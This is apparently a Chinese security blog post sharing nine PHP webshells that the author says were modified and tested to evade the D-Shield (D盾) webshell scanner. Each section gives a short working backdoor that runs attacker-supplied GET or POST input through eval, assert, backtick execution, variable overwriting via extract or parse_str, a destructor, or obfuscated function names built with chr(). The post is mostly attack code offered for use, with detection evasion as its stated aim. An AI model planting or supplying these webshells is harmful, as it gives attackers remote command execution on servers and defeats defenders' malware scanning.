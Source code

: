 # 过D盾webshell分享

## **0x00 前言**

最近在测试过程中遇到了D盾，悲催的发现所有过D盾的webshell都被查杀了。因此就在网上搜索了一些之前可以过D盾的shell，然后将其做了一些变形（有一些shell没有更改），使其可以过D盾。本次一共奉献上9个可过D盾的shell，全部亲测可过。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122204613-b3a5f794-1e43-1.png)

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122204843-0ca7b9fe-1e44-1.png)

## **0x01 extract 变量覆盖过D盾**

```php
<?php  $a=1;$b=$_POST;extract($b);print_r(`$a`)?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205019-45fd4624-1e44-1.png)

## **0x02 parse\_str 变量覆盖过D盾**

```php
<?php  $a=1;$b="a=".$_GET['a'];parse_str($b);print_r(`$a`)?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205139-75f68bc4-1e44-1.png)

## **0x03 \_\_destruct 析构函数过D盾**

```php
<?php 

class User
{
  public $name = '';

  function __destruct(){
    eval("$this->name");
  }
}

$user = new User;
$user->name = ''.$_POST['name'];
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205332-b93e808a-1e44-1.png)

## **0x04 null 拼接过D盾**

```php
<?php

$name = $_GET['name'];

$name1=$name2= null;

eval($name1.$name2.$name);

?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205456-eb31176a-1e44-1.png)

## **0x05 '' 拼接过D盾**

```php
<?php

$name = $_GET['name'];

$name1=$name2= '';

eval($name1.$name2.$name);

?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205654-31717666-1e45-1.png)

## **0x06 '' null 拼接过D盾**

```php
<?php
$a = $_GET['a'];
$c = null;
eval(''.$c.$a);

?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122205813-609b9c82-1e45-1.png)

## **0x07 array\_map函数过D盾**

```php
<?php
function user()
{
$a123 =  chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
return ''.$a123;
}
$a123 = user();
$x123 =array($_GET['x']);
array_map($a123,$a123 = $x123 );
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122210048-bd5033a2-1e45-1.png)

## **0x08 call\_user\_func\_array函数过D盾**

```php
<?php

function a(){
     return 'assert';
}
$a=a();
$aa = array($_GET['x']);
call_user_func_array($a,$a=$aa);
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122210154-e4267694-1e45-1.png)

## **0x09 call\_user\_func函数过D盾**

```php
<?php
function a(){
     return 'assert';
}
$a=a();
$aa=$_GET['x'];
call_user_func($a,$a=$aa);
?>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190122210308-10a09592-1e46-1.png)

